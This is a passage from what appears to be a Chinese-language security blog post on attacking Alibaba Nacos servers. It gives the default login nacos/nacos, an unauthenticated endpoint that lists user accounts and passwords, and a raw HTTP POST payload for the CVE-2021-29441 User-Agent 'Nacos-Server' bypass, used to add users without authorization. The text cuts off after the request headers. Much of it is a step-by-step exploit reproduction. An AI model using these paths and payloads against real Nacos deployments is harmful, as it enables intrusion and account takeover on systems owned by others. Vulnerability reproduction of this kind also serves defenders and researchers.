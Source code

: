 /nacos/v1/console/server/state  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia8pwbqnav29icGdAlvpPTKmCfQibr3mZWCL5tLXA3zTjRzsgBNafcBISw/640?wx_fmt=jpeg&from=appmsg "")  
### 2. 默认口令  
  
访问 http://ip:8848/nacos/#/login进入登陆页面  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia0O0vrGkdtah21avqbuDeJxRXzksb5Yf06VyWOwsHVDIEdpdrEoJkKA/640?wx_fmt=jpeg&from=appmsg "")  
  
默认口令为： nacos/nacos  
### 3.默认未开启鉴权-未授权查看用户信息  
  
由于系统默认未开启鉴权 导致未授权访问  
  
nacos.core.auth.enabled=false  
#### 漏洞复现  
  
测试版本：nacos1.4.0  
  
直接访问如下路径，未授权查看用户信息  
  
/nacos/v1/auth/users?pageNo=1&pageSize=9  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaqmJd48lMJgibATGuiaSqxlwzQ00Pnt2YaapUxpUHaCicmKMKhzXJic7qDA/640?wx_fmt=jpeg&from=appmsg "")  
### 4. User-Agent权限绕过（CVE-2021-29441）  
  
漏洞描述: 该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。  
  
  
版本: <=Nacos 1.4.1 配置为使用身份验证（nacos.core.auth.enabled=true）  
  
直接访问下面的目录，可以未授权查看到账号密码  
  
/nacos/v1/auth/users?pageNo=1&pageSize=100 //可查看到用户列表  
  
可以看下里面的账号密码，很多情况下账号密码都是这个暴露出来的username，和password信息  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaA9yJbOx2mwfib11UT7ZPsJbRxlsx41qOm155icZibHN6yVCfgKLI2VB2Q/640?wx_fmt=jpeg&from=appmsg "")  
  
未授权添加用户  
  
payload:  
  
POST /nacos/v1/auth/users HTTP/1.1  
Host:   
User-Agent: Nacos-Server  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Connection: keep-alive  
Upgrade-Insecure-Requests: 1  
If-Modified-Since: Wed, 28 Jul 2021 11:28:45 GMT  
Priority: u=0, i  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
  